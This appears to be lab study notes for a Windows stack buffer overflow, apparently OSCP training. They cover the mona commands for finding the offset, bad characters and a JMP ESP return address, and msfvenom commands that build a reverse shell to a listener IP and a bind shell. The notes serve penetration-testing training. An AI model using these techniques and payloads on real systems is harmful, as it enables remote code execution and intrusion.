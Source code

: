 Buffer Overflow - Windows

run fuzzer.py and get the largest value of crash

![659672f75ba7dff5ac54d9d2df5dab9b.png](../../_resources/c7c110537f064391afc2bbf07bcbabb5.png)

generate cyclic pattern to find offset to EIP register
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

copy cyclic pattern to payload variable and run script

run script > program crash

run mona command to calculate offset 

```
!mona findmsp -distance 2000
```

![06051a3581f76c34013d0d9a113f9473.png](../../_resources/96eb04c0a47b47daa8929d3b8ba18b9b.png)

edit script
```
offset = 1978
retn = "BBBB"
```
generate bad chars with script

put bad chars into payload and run

after program crash run mona commands

```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
```

put value of ESP register here

![e0fd351278509b26c26096bbf4a341fe.png](../../_resources/7265a7feac8f4c90bf1a77cc37505934.png)

the path "oscp" is the name of the binary

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0181FA30
```

![3ac21f9071eb1ef93b558613525446f5.png](../../_resources/bde234de758a4213b5f7500f299299f1.png)

00 always bad char
move to next bad char - ignore the next char if sequential
move to next bad char - ignore the next char if sequential
etc ...

find return address
```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
can use any return address here

![445651200cc339c00de48848be51e39b.png](../../_resources/298a46fe58c8409f93ffd1af99a92586.png)

example

```
#shown on mona
0x625011d3

#first reverse it
d3115062

#then write as bytes
\xd3\x11\x50\x62

#add to script
retn = "\xd3\x11\x50\x62"
```

generate payload
```
#reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.46.252 LPORT=443 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

#bind shell
msfvenom -p windows/shell_bind_tcp RHOST=10.10.78.186 LPORT=9000 EXITFUNC=thread -b "\x00\x01\x02\x03\x23\x3c\x83\xba" -f c
```
add to payload

![9f7c4e7db9e82ed3c1e8c7b758d5e5f2.png](../../_resources/9a8a6bfbb2d34fc0a003c23a05d198b1.png)

Prepend NOPs
```
padding = "\x90" * 16
```

run exploit

![275359586a41f8f28567bb3fc19be88f.png](../../_resources/a2c766bbb3c64cc98175ece4d67c590e.png)

reverse shell example

![3ca54dcc865e6cfcdee69318782ce40c.png](../../_resources/732f4bd5725047a890aa7b758e91ac64.png)

bind shell example

![e6ab91562c636e69a103cd443559be63.png](../../_resources/c4fbd7ad044148e0a0112f83941c4732.png)

![f2178ea5e360fadc10bd3a73e2ea7d72.png](../../_resources/a9b4649f77ea48b889f1dd8b415c7b5d.png)